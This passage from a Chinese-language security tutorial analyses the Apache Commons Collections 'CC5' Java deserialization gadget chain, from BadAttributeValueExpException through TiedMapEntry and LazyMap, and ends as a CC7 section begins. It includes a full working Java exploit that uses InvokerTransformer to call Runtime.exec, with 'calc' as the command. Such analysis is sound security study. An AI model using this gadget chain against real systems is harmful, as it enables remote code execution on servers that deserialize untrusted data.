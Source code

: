 这里又回到了去触发 `LazyMap.get()`，只不过改变了 `LazyMap.get()` 的触发方式，不再借助 `AnnotationInvocationHandler` 的反序列化触发。

在 TiedMapEntry 类中：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>``` | ```java<br>public class TiedMapEntry implements Entry, KeyValue, Serializable {<br><br>    private static final long serialVersionUID = -8453869361373831205L;<br>    private final Map map;<br>    private final Object key;<br><br>    //构造函数，显然我们可以控制 this.map 为 LazyMap<br>    public TiedMapEntry(Map map, Object key) {<br>        this.map = map;<br>        this.key = key;<br>    }<br><br>    //toString函数，注意这里调用了 getValue()<br>    public String toString() {<br>        return this.getKey() + "=" + this.getValue();<br>    }<br><br>    //跟进 getValue(), 这是关键点 this.map.get() 触发 LazyMap.get()<br>    public Object getValue() {<br>        return this.map.get(this.key);<br>    }<br><br>}<br>``` |

综上，通过 `TiedMapEntry.toString()` 可触发 `LazyMap.get()`

通过交叉引用搜索，是否存在一个类可以在反序列化过程中触发 `TiedMapEntry.toString()`，最终找到了 `BadAttributeValueExpException`：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>``` | ```java<br>public class BadAttributeValueExpException extends Exception   {<br>    private Object val;     //这里可以控制 val 为 TiedMapEntry<br><br>    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {<br>        ObjectInputStream.GetField gf = ois.readFields();<br>        Object valObj = gf.get("val", null);<br><br>        if (valObj == null) {<br>            val = null;<br>        } else if (valObj instanceof String) {<br>            val= valObj;<br>        } else if (System.getSecurityManager() == null<br>                \| valObj instanceof Long<br>                \| valObj instanceof Integer<br>                \| valObj instanceof Float<br>                \| valObj instanceof Double<br>                \| valObj instanceof Byte<br>                \| valObj instanceof Short<br>                \| valObj instanceof Boolean) {<br>            val = valObj.toString();    //这里是关键点，调用toString()<br>        } else {<br>            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();<br>        }<br>    }<br>}<br>``` |

最终实现代码：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>``` | ```java<br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.keyvalue.TiedMapEntry;<br>import org.apache.commons.collections.map.LazyMap;<br><br>import javax.management.BadAttributeValueExpException;<br>import java.io.*;<br>import java.lang.reflect.Field;<br>import java.util.HashMap;<br>import java.util.Map;<br><br>public class CommonsCollections5 {<br><br>    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {<br><br>        //Transformer数组<br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),<br>                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),<br>                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})<br>        };<br><br>        //ChainedTransformer实例<br>        Transformer chainedTransformer = new ChainedTransformer(transformers);<br><br>        //LazyMap实例<br>        Map uselessMap = new HashMap();<br>        Map lazyMap = LazyMap.decorate(uselessMap,chainedTransformer);<br><br>        //TiedMapEntry 实例<br>        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"test");<br><br>        //BadAttributeValueExpException 实例<br>        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);<br><br>        //反射设置 val<br>        Field val = BadAttributeValueExpException.class.getDeclaredField("val");<br>        val.setAccessible(true);<br>        val.set(badAttributeValueExpException, tiedMapEntry);<br><br>        //序列化<br>        ByteArrayOutputStream baos = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(baos);<br>        oos.writeObject(badAttributeValueExpException);<br>        oos.flush();<br>        oos.close();<br><br>        //测试反序列化<br>        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());<br>        ObjectInputStream ois = new ObjectInputStream(bais);<br>        ois.readObject();<br>        ois.close();<br><br>    }<br>}<br>``` |

## [](#4-commonscollections-7-gadget-%E5%88%86%E6%9E%90)4 CommonsCollections 7 Gadget 分析

cc7 调用链：

|     |     |     |
| --- | --- | --- |